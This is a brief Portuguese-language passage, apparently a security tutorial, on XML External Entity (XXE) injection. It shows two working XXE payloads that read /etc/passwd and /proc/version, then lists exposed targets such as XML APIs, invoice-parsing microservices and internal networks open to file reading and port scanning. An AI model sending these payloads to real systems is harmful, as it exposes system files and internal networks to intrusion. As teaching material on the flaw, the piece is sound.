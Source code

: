 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///proc/version">
]>
<root>&xxe;</root>


Onde essa vulnerabilidade pode ser explorada:
- APIs ou formulários que recebem XML
- Serviços de parsing centralizados: microserviços que recebem XML para processar documentos, faturas eletrônicas
- Ambientes internos com acesso a arquivos sensíveis ou rede: o hacker pode ler arquivos internos, fazer 'port scanning' da rede interna.